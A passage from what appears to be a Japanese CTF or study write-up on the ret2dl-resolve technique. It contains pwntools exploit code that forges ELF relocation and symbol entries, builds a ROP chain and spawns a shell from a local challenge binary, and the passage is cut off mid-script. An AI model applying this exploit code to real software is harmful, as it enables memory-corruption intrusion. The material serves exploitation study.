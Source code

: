 ```python=
buf += p64(addr_plt_gets)
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
# buf += p64(addr_plt_puts)
buf += p64(addr_plt_start)
buf += p64(puts_reloc_arg)
buf += p64(addr_plt_exit)

buf2 = b"/bin/sh\x00"
buf2 += p64(0x0)
buf2 += b"B" * fake_rela_align
buf2 += fake_rela
buf2 += b"C" * fake_sym_align
buf2 += fake_sym

_ = input()
target.sendline(buf)
target.sendline(buf2)

target.interactive()
```

### 偽の.dynstrセクションを用いたputsの呼び出し
* `puts\x00`の文字列を適当な位置に書き込む。
* `.dynstr`セクションの先頭から書き込んだ`puts\x00`までのオフセットを`st_name`としてセットした偽の`Elf64_sym`構造体を用意。
* `.dynsym`セクションの先頭から偽の`Elf64_sym`までのオフセットを0x18で割った値を`r_info`としてセットした偽の`ELf64_rela`構造体を用意。
* スタックに積む`reloc_arg`を、`.rela.plt`セクションから偽の`ELf64_rela`構造体までのオフセットを0x18で割った値に変更。

```pytyon=
#!/usr/bin/env python3
from pwn import *

elf = ELF("./chall")
rop = ROP(elf)
target = process("./chall")

addr_plt_puts = elf.plt["puts"]
addr_plt_gets = elf.plt["gets"]
addr_plt_exit = elf.plt["exit"]
addr_got_gets = elf.got["gets"]
addr_bss = elf.bss()

# section
addr_plt_start = elf.get_section_by_name(".plt").header.sh_addr
addr_rela_plt = elf.get_section_by_name(".rela.plt").header.sh_addr
addr_dynsym = elf.get_section_by_name(".dynsym").header.sh_addr
addr_dynstr = elf.get_section_by_name(".dynstr").header.sh_addr

addr_pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address 
# addr_pop_rsi = rop.find_gadget(["pop rsi", "pop r15", "ret"]).address 

stack_size = 0x800
base_stage = addr_bss + stack_size

# fake rela.plt
fake_rela_offset = (base_stage + 0x10) - addr_rela_plt
fake_rela_align = 0x18 - (fake_rela_offset % 0x18)
fake_rela_offset += fake_rela_align

puts_reloc_arg = fake_rela_offset // 0x18

# fake .dynsym
fake_sym_offset = (base_stage + 0x10 + fake_rela_align + 0x18) - addr_dynsym
```